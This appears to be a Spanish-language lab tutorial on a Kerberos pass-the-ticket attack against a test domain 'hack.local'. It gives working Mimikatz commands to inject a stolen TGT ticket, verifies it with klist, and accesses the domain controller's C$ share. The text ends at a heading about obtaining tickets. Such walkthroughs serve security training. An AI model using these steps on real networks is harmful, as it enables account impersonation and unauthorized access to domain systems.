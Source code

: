 #### 🎯 Escenario:

- Usuario de dominio: `gustavo@hack.local`
- Dominio: `hack.local`
- Ticket Kerberos robado: `gustavo_TGT.kirbi`
- Nombre del DC: `dc.hack.local`

---

#### 🪟 Paso 1: Abrir Mimikatz

Ejecuta `mimikatz.exe` como **Administrador** y habilita privilegios:

```mimikatz
privilege::debug
```

---

#### 🪪 Paso 2: Inyectar el ticket con `kerberos::ptt`

```mimikatz
kerberos::ptt C:\ruta\al\ticket\gustavo_TGT.kirbi
```

> El ticket se inyecta en la sesión actual. Desde este momento, Windows "cree" que eres el usuario `gustavo`.

---

#### 🧾 Paso 3: Verificar que el ticket esté cargado

```cmd
klist
```

Deberías ver algo como:

```
Current LogonId is 0:0x52f31
Cached Tickets: (1)
#0> Client: gustavo @ HACK.LOCAL
    Server: krbtgt/HACK.LOCAL @ HACK.LOCAL
```

---

#### 🧠 Paso 4: Acceder a recursos Kerberos

Por ejemplo, acceder a la carpeta administrativa del controlador de dominio:

```cmd
dir \\dc.hack.local\C$
```

¡Funcionará si `gustavo` tiene permisos!

---

### 🧪 ¿Cómo obtener un ticket?
